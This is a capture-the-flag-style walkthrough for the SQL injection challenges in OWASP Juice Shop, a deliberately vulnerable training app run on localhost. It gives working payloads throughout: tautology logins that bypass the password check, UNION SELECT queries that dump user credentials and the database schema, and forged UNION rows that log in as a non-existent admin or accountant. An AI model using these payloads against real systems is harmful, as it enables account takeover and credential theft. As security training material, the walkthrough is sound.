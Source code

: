 # SQL Injection

This web application is vulnerable to SQL injection attacks specifically reshaping the SQL queries using the following techniques:
* Tautology based injection
* UNION select injection

## SQL injection challenges in OWASP juice-shop web app

|Name   |Description   |Difficulty   |
|---|---|---|
|Login Admin   |Log in with the administrator's user account   |⭐⭐   |
|Login Bender   |Log in with Bender's user account   |⭐⭐⭐   |
|Login Jim   |Log in with Jim's user account   |⭐⭐⭐   |
|Login Chris   |Log in with Chris' erased user account   |⭐⭐⭐   |
|Christmas Special   |Order the Christmas special offer of 2014   |⭐⭐⭐   |
|Database Schema   |Exfiltrate the entire DB schema definition via SQL Injection   |⭐⭐⭐   |
|User Credentials   |Retrieve a list of all user credentials   |⭐⭐⭐⭐   |
|Ephemeral Accountant   |Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user   |⭐⭐⭐⭐   |
|   |   |   |



Before a hacker can  start exploiting an insecure application, s/he must figure out how the application handles **bad** input first.

The best and original way of testing is with the single quote technique. Using the tick technique, two things should happen:

1. The input is sanitized or cleaned and returns a nice error message.

1. There is no sanitization we get something like below or something blatant or nothing.

## Tick Technique

First enter just an apostrophe in the Email input field. What errors do we get? Then try putting a tick at end of an existing user email like below.

![end-tick](object_Object.png)

The error response is crucial in determining the attack.

What will the attacker see on form page by inputting a single quote? It depends on how the application handles errors in the database. In this case, something nondescript. But what is remarkable is that there are no errors like, "**invalid email address and password**". But... we are seeing SQLite errors. Now the hacker also knows that the input is not being sanitized. And if there is no sanization, there's potential exploitation.

![inspector errors](descriptive_errors.png)

1. On the juice-shop app login page, type
   ```
   ' or true;
   ```
    semicolon is used to end a sql statement
   ```
   ' or true -- lkjlsdjlfkjsfsdlsjdlfjs
   ```
   ```
    dkfdk' or true -- blahblah
   ```

1. go to code [login code](https://github.com/bkimminich/juice-shop/blob/master/routes/login.js)

    We expose the code above and the backend sqlite on the web interface.

1. show juiceshop.sqlite

1. By the time the web app sends the query to sqlite, it looks like this.
    ```
    SELECT * FROM Users WHERE email='dkfdk' or true -- blahblah AND password='somehashedpassword'
    ```

    Due to the inclusion of a comment delimiter in the email field the password portion of the query will be ignored.

1. in fact, you can input this with any emails, like:
    ```
    support@juice-sh.op'; -- active
    chris.pike@juice-sh.op'; -- inactive
    ```
**Make everything else irrelevant following the semicolon as it closes the SQL statement**

## UNION based
### **List all products (whether active or not)**
    ')); or ')) --
This includes all products and **')); or ')) --** made other qualifications irrelevant.

### **List all users**
```
anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--

http://localhost:3000/rest/products/search?q=anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--
```
the nonsensical text after __q=__ is a technique to make the api search for that nonexistent product. but the sql code proceeds with the payload.

### **Voila the schema**
```
http://localhost:3000/rest/products/search?q=sldjfwo')) UNION SELECT sql,2,3,4,5,6,7,8,9  FROM sqlite_master--

```

### **ephemeral accounts**

when you register a new account, from the inspector we know that the fields (or keys) are used.

![columns used](upon_registration.png)


start with
```
' union select 1;
```
It is universal to return from this temp table the 1 record with a single field that has value 1.
From the image above, we see that we need at least 10 columns. Try:

```
' union select 1,1,1,1,1,1,1,1,1,1;
```

It needs exactly 12 columns. We see now that we do not get any SQL errors, but we get a new prompt page.

![2fa auth](2fa_required.png)

We need to experiment a little bit to find out where this  totpSecret should be. But looking at the schema, you'll note that totpSecret is 5th from the last. Try:


```
' union select 1,1,1,1,1,1,1,'' as 'totpSecret',1,1,1,1;
```

Obviously, we can log in with just the totpSecret filled in for this application. Let's try adding an email.

```
' union select * from (select 1,1,'nem@akdm.nt' as 'email',1,1,1,1,'' as 'totpSecret',1,1,1,1);
```
or even add a role:
```
' union select 1,1,1,1,'admin' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
Get points by inserting email of fake accountant:
```
' union select 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
How does it look when sent to database?
```
SELECT * FROM users WHERE email = '' UNION SELECT * FROM (SELECT 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1)
```

## sqlite_master

The SQLite database holds the database schema in the table sqlite_master.
Table definition

The table definition is as follows:

    Type : Type is Index or Table.
    name : Index or table name
    tbl_name : Name of the table
    rootpage : rootpage, internal to SQLite
    sql : The SQL statement, which would create this table.

## API endpoint

1. code [products /rest](https://github.com/bkimminich/juice-shop/blob/master/routes/search.js)

1. code [products /rest/products/search](https://github.com/bkimminich/juice-shop/tree/master/frontend/src/app/Services)


## How to avoid sql injection

1. [protection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)